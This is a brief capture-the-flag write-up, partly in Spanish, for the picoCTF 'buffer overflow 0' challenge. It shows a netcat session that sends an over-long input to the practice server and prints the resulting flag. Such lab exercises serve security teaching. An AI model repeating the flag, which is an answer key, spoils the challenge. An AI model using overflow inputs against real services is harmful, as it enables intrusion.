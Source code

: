## Objetivo
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c).

Connect using: `nc saturn.picoctf.net 55526`

## Solución
Al ver el código nos damos cuenta que si ingresamos más de 16 caracteres se desvorda el buffer y nos muestra la bandera.
```bash
┌──(kali㉿kali)-[~/picoCTFretos/Binexp/bufferoverflow0]
└─$ nc saturn.picoctf.net 55526
Input: hieunklaiebal;einxageagcae
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Notas adicionales
## Referencias
